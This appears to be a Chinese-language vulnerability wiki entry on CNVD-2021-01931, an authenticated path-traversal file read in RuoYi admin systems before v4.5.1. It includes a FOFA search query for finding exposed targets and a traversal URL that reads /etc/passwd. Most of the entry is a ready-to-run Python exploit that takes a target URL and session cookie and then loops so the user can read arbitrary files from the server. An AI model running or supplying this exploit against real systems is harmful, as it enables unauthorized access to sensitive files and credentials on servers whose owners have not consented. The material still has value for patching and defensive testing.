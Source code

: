 ```yaml
---
title: 若依管理系统 后台任意文件读取 CNVD-2021-01931
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 若依管理系统
---
```


# 若依(RuoYi)管理系统 后台任意文件读取

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> RuoYi < v4.5.1

## FOFA

> [!NOTE]
>
> app="若依-管理系统"

## 漏洞复现

登录后台后访问 Url

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd

![](/img/20210924013651966223.png)

访问后会下载文件 **/etc/passwd**

![](/img/20210924013652151507.png)

可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息

![](/img/20210924013652393586.png)

![](/img/20210924013653213986.png)

在新版本的修复中添加了过滤

![](/img/20210924013653786123.png)

## 漏洞利用POC

> [!NOTE]
>
> POC使用需要后台的Cookie,读取的文件路径应为根路径

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Filename = input("\033[35mFile >>> \033[0m")
                if Filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cookie, Filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie, Filename):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = str(input("\033[35mCookie >>> \033[0m"))
    POC_1(target_url, Cookie)
```

![](/img/20210924013654026926.png)




